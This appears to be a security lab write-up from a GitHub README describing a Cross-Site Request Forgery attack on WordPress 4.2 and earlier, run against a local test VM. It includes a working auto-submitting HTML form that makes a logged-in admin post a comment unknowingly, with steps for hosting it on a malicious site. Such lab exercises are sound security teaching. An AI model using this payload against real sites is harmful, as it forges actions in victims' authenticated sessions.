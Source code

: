Cross Site Request Forgery (CSRF) Cross-Site Request Forgery (CSRF) is an attack that forces an end user to execute unwanted actions on a web application in which they’re currently authenticated. CSRF attacks are possible when the application does not ensure that a user is in fact interacting with it.

Steps:

1)Create a malicious form code:

    <html>
        <head></head>
        <body>
            <form name="csrfForm" action="http://wpdistillery.vm/wp-comments-post.php" method="POST">
                <input type="hidden" name="comment" value="I made a new comment">
                <input type="hidden" name="comment_post_ID" value="1">
                <input type="hidden" name="comment_parent" value="0">
                <input type="hidden" name="_wp_unfiltered_html_comment" value="456890231">
                <input type="submit" value="Post+Comment">
            </form>
            <script>document.csrfForm.submit(); </script>
    </body>
    </html>
    
    2)With that code set up a malicious website

3)The malicious website will automatically submit ad post the comment 'I made a new comment' as an admin.

Tested in version: WordPress <= 4.2

GIF Walkthrough:

![CSRF](https://user-images.githubusercontent.com/78192383/162076560-c9452ca4-848f-4010-9c10-ce8a0b0c7de4.gif)

